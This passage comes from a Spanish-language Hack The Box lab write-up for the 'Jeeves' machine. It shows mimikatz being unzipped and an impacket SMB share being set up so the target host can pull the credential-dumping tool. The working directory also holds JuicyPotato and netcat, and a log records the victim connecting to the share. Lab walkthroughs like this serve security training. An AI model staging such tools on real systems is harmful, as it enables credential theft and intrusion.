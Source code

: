Algo que podemos hacer un subir el `mimikatz.exe` 

![](/assets/images/htb-writeup-jeeves/ok.png)

<https://github.com/gentilkiwi/mimikatz/releases/>

```bash
❯ unzip mimikatz_trunk.zip
Archive:  mimikatz_trunk.zip
  inflating: kiwi_passwords.yar      
  inflating: mimicom.idl             
  inflating: README.md               
   creating: Win32/
  inflating: Win32/mimidrv.sys       
  inflating: Win32/mimikatz.exe      
  inflating: Win32/mimilib.dll       
  inflating: Win32/mimilove.exe      
  inflating: Win32/mimispool.dll     
   creating: x64/
  inflating: x64/mimidrv.sys         
  inflating: x64/mimikatz.exe        
  inflating: x64/mimilib.dll         
  inflating: x64/mimispool.dll       
❯ ls
 Win32   CEH.kdbx   JuicyPotato.exe      mimicom.idl          nc.exe
 x64     hash       kiwi_passwords.yar   mimikatz_trunk.zip   README.md
❯ cd x64
❯ ls
 mimidrv.sys   mimikatz.exe   mimilib.dll   mimispool.dll
```

Ahora aprovechandonos de nuestro recurso compartido que tenemos con `smbserver.py` vamos a subirlo

```bash
❯ smbserver.py parrotsec . -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.63,49676)
[*] AUTHENTICATE_MESSAGE (\,JEEVES)
[*] User JEEVES\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:parrotsec)
```
